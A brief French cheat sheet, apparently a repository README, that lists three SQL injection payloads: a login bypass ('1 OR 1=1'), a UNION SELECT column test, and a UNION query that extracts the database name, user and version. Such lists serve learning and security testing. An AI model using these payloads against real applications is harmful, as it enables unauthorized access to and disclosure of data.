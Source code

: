 # Injection-SQL

Les différentes injections :
- Bypass simple :	1 OR 1=1
- Test des colonnes :	-1 UNION SELECT 1,2,3,4,5
- Extraction d'infos du système : -1 UNION SELECT 1, database(), user(), version(), 5
